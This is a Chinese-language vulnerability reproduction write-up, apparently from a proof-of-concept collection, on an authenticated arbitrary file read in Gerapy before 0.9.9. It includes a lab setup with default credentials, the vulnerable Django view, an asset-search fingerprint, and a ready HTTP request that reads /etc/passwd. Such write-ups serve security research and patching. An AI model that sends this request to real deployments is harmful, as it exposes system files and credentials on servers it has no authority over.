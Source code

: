 # Gerapy project_file_read 后台任意文件读取漏洞

## 漏洞描述

Gerapy 是一款基于 Scrapy、Scrapyd、Django 和 Vue.js 的分布式爬虫管理框架。

Gerapy < 0.9.9 存在任意文件读取漏洞，函数 `project_file_read` 的 `path` 和 `label` 参数可控，经过身份验证的攻击者可以读取任意文件。

参考链接：

- https://github.com/Gerapy/Gerapy/issues/210
- https://github.com/Gerapy/Gerapy/blob/af5657354aa040d5a6b52c91a837f5d63422d6d3/gerapy/server/core/views.py#L548-L561

## 漏洞影响

```
Gerapy < 0.9.9
```

## 网络测绘

```
title="Gerapy"
```

## 环境搭建

docker-compose.yml

```
version: "3.9"

services:

  gerapy:
    image: germey/gerapy:0.9.6
    build: .
    container_name: gerapy
    restart: always
    volumes:
      - gerapy:/home/gerapy
    ports:
      - 8000:8000

volumes:
  gerapy:
```

执行如下命令启动一个 Gerapy 0.9.6 版本的服务器：

```
docker-compose up -d
```

启动完成后，访问 `http://your-ip:8000` 即可查看登录页面，通过默认口令 `admin/admin` 登录后台。

![](Public/Awesome-POC/Web应用漏洞/images/Gerapy%20project_file_read%20后台任意文件读取漏洞/image-20250516170319239.png)

## 漏洞复现

[漏洞点](https://github.com/Gerapy/Gerapy/blob/af5657354aa040d5a6b52c91a837f5d63422d6d3/gerapy/server/core/views.py#L339) 位于 `gerapy/server/core/views.py`：

```
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_file_read(request):
    """
    get content of project file
    :param request: request object
    :return: file content
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        path = join(data['path'], data['label'])
        # binary file
        with open(path, 'rb') as f:
            return HttpResponse(f.read().decode('utf-8'))
```

![](Public/Awesome-POC/Web应用漏洞/images/Gerapy%20project_file_read%20后台任意文件读取漏洞/image-20250516170104352.png)

构造请求包：

```
POST /api/project/file/read HTTP/1.1
Host: your-ip:8000
Accept: */*
Referer: http://your-ip:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Authorization: Token e8279162677dd4fbfefe352b0f51ea8ad19cace5

{"path":"/etc/","label":"passwd"}
```

![](Public/Awesome-POC/Web应用漏洞/images/Gerapy%20project_file_read%20后台任意文件读取漏洞/image-20250516170502226.png)

## 漏洞修复

升级至安全版本。
